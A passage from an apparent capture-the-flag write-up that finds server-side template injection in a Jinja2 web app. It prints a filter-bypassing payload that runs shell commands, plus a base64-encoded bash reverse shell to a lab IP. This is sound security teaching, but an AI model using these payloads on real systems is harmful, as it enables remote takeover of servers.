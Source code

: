 And with a simple payload of `{{7*7}}`, we can see that the page is vulnerable because ti read it, and executed it for us. From reviewing HackTricks, it looks like it's using `Jinja` as the templating engine.

More evidence of the vulnerability

![ssti2](../../assets/images/iclean-qr-generator-ssit-confirm2.webp)

Now that we know the web app is vulnerable to SSTI, we can create our reverse shell payload.

Using a modified payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) under **Server Side Template Injection > Jinja2 - Filter Bypass**, the very last one listed under this heading is a bypass for all the most common filters ('.','\_','|join','[',']','mro' and 'base').

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

The [blog](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) entry from the creator of this bypass also does a good job explaining.

We modify this to:

```python title="Full Payload"
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5f
getitem\x5f\x5f')
('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')
('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')("echo+-
n+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMjQvMTMzNyAwPiYx%3d%3d+|+base64+
-d+|+bash")|attr('read')()}}
```
